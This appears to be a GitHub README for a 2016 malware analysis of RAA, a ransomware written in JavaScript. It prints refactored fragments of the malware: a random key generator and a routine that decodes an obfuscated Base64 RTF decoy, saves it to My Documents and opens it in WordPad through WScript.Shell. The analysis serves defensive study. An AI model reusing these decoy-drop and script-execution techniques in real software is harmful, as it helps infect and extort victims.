 # RAA Ransomware JavaScript code analysis

On 14th of June 2016 I found an information about new ransomware called RAA Ransomware. Couple of websites mentioned about it as first ransomware created only by using JavaScript.

Following some links provided by Polish malware analyst @hasherezade (https://github.com/hasherezade, https://twitter.com/hasherezade) I've downloaded RAA JavaScript source code from malwr.com (https://malwr.com/analysis/YmE4MDNlMzk2MjY3NDdlYWE1NzFiOTNlYzVhZTlkM2Y/) to take a look its internals.

File _raa.js_ contains original content of RAA downloaded from malwr.com, and other files contains source code with some refactoring which I've done during RAA analysis and test runs.


# Analysis

## Extracting parts of code into separate files

**raa.js** file contains 3rd party library, used for some encoding purposes. It's **CryptoJS** library (source code available here https://code.google.com/archive/p/crypto-js/ or GitHub fork here https://github.com/sytelus/CryptoJS).

To keep source code easier to analysis, I've decided to divide **raa.js** into couple of smaller parts. After quick investigation I was able to spot three main parts.

Folder _partials/_ contains those parts of code (I keep order of how those fragments exists in original file). Please be aware that I've done a lot of renaming, mostly in **raa_other.js**. Original, obfuscated names you can find in **raa.js**.

- _CryptoJS_ contains CryptoJS library
- _raa_other.js_ contains other functions, including **zQqUzoSxLQ()**, which seems to be an entry point for the program
- _NWvQtGjjfQX.js_ contains content of function **NWvQtGjjfQX()**


## How RAA JavaScript part works

First executable line of script is this assingment:

```javascript
var TBucypWw = YUIMqkFkI();
```

I tried to rename all found variables and function names into something what makes sense and allows to follow them in code. This is how previous line and a function just before it looks like after quick renaming (I just guessed the role of each variable and function to choose particular name):

```javascript
function generateKey() {
    var returnedKey = "";
    var allowedChars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
    for (var i = 0; i < 5; i++)
        returnedKey += allowedChars.charAt(Math.floor(Math.random() * allowedChars.length));
    return returnedKey;
}

// var TBucypWw = YUIMqkFkI();
var __key = generateKey();  // <-- returns xW5Gf
```

This fragment just generates a string which contains five characters. In this writeup, to understand its meaning, how and where it's used, I assigned *xW5Gf* from example above as generated value of **__key** variable.

Next executable fragment is:

```javascript
// starts from:
//
// var Yvwtdbvd = WScript.Arguments;
// (...)


var __arguments = WScript.Arguments;


if (__arguments.length == 0) {
    runShell();
    runRansomware();
} else {
    null;
}

```
And here's RAA starts its work.
First, **runShell()** is executed. Original name of this function is **nYuMHHRx()**, below there's refactored version.

```javascript

function runShell() {
    var b64EncodedString = "e1xydGYxXG..( very long Base64 encoded string - removed)..zIwXHBhcg0KfQ0KBBSDIOBBSDIO==";
    b64EncodedString = b64EncodedString.replace(/BBSDIO/g, "A");
    var clear_b64EncodedString = CryptoJS.enc.Base64.parse(b64EncodedString);
    var clearedString = clear_b64EncodedString.toString(CryptoJS.enc.Utf8);
    clearedString = clearedString.replace(/BBSDIO/g, "A");
    var AdodbStreamObj = new ActiveXObject('ADODB.Stream');
    var WScriptShellObj = WScript.CreateObject("WScript.shell");
    var _saveFolder = WScriptShellObj.SpecialFolders("MyDocuments");
    _saveFolder = _saveFolder + "\\" + "doc_attached_" + __key;
    AdodbStreamObj.Type = 2;
    AdodbStreamObj.Charset = "437";
    AdodbStreamObj.Open();
    AdodbStreamObj.WriteText(clearedString);
    AdodbStreamObj.SaveToFile(_saveFolder);
    AdodbStreamObj.Close();
    var run = "wordpad.exe " + "\"" + _saveFolder + "\"";
    WScriptShellObj.Run(run);
    return 0;
}

```

Let's go through it step by step.

b64EncodedString contains very long, obfuscated Base64 encoded string. After a couple of operations with Regular Expressions and CryptoJS calls finally we get RTF document (see **extracted/extracted_rtf.rtf** file)

Next, a file is created with following path:
```
\MyDocuments\doc_atatched_xW5Gf
```
Content of previously generated RTF file is then saved at this path.

Finally, following command is created:

```
var run = wordpad.exe "\MyDocuments\doc_atatched_xW5Gf"
```
and after that executed by Windows Script Host method Run():

```
WScriptShellObj.Run(run);
```
(see https://msdn.microsoft.com/en-us/library/d5fk67ky(v=vs.84).aspx  for deatils about WScript object Run() method)





## Links, references

**News about RAA from BleepingComputer website**

http://www.bleepingcomputer.com/news/security/the-new-raa-ransomware-is-created-entirely-using-javascript/

**malwr.com**

https://malwr.com/analysis/YmE4MDNlMzk2MjY3NDdlYWE1NzFiOTNlYzVhZTlkM2Y/
